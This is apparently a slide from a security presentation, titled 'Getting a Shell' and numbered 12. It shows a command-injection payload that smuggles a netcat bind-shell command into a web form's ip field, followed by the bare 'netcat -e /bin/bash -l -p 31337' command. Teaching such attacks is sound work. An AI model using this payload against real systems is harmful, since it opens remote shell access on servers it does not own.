

# Getting a Shell
ip=127.0.0.1+%26+netcat+-v+-e+'/bin/bash'+-l+-p+31337&submit=submit
netcat –v –e ‘/bin/bash’ –l –p 31337
12